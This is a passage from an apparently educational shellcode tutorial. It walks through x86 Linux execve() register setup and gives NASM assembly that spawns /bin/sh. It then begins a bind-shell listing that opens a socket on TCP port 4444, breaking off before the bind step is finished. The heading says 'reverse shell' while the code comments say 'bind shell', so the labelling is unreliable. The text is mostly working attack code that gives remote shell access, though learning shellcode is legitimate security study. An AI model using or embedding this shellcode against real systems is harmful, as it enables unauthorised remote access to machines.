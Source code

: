We will turn to the man pages with command `man 2 execve` to learn more about `execve()`. 
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
+ `EAX = int execve() = 11`
  - System Call Number for `execve`  
```console
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
  #define __NR_execve   11	
```  
+ `EBX = const char *filename = address of string ("/bin/bash" + "0x00")`
  - Pointer to string in memory storing `/bin/bash` + `NULL Terminated` 
  - `NULL Terminated` ends the string `0x00`  
+ `ECX = char *const argv[] = [ memory address of string "/bin/bash", 0x00000000 ]`
  - Array of argument strings passed to the new program.  
  - #1 = Address of `/bin/bash` in memory  
  - #2 = DWORD (32bit) `NULL = 0x00000000`  
+ `EDX =  char *const envp[] = 0x00000000` 
  - Array of strings which are passed as environment variables to the program.

```nasm
push edx         ; NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f  ; "nib/"
mov ebx, esp     ; point ebx to stack
mov ecx, edx     ; NULL
mov al, 0xb      ; execve System Call Number
int 0x80         ; execute execve
```

## Complete Assembly Code for TCP Reverse Shell Shellcode

```nasm
; Author: boku
; Purpose: TCP Bind Shell Shellcode
;  Listens on all IPv4 Interfaces, TCP Port 4444
;  Spawns the shell "/bin/sh" upon connection
global _start

section .text

_start:
; 1. Create a new Socket
; <socketcall>  ipv4Socket = socket( AF_INET, SOCK_STREAM, 0 );
;   EAX=0x66                  EBX     ECX[0]   ECX[1]    ECX[2]
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x1       ; EBX is set to create a socket
xor ecx, ecx      ; This sets the ECX Register to NULL (all zeros).
push ecx          ; ECX[2]. ECX is NULL, the value needed for the first
                  ;   argument we need to push onto the stack
push ebx          ; ECX[1]. EBX already has the value we need for ECX[1] 
                  ;   we will simply use it to push the value 1.
push dword 0x2    ; ECX[0]. Push the value 2 onto the stack, needed for AF_INET.
mov ecx, esp      ; ECX now holds the pointer to the beginning of the 
                  ;   argument array stored on the stack.
int 0x80          ; System Call Interrupt 0x80 - Executes socket(). 
                  ;   Creates the Socket.
xchg esi, eax     ; After the SYSCAL, sockfd is stored in the EAX Register. 
                  ;   Move it to the ESI Register; we will need it later.

; 2+3. Create TCP-IP Address and Bind the Address to the Socket
; struct sockaddr_in ipSocketAddr = { 
; .sin_family = AF_INET, .sin_port = htons(4444), .sin_addr.s_addr = INADDR_ANY};
```
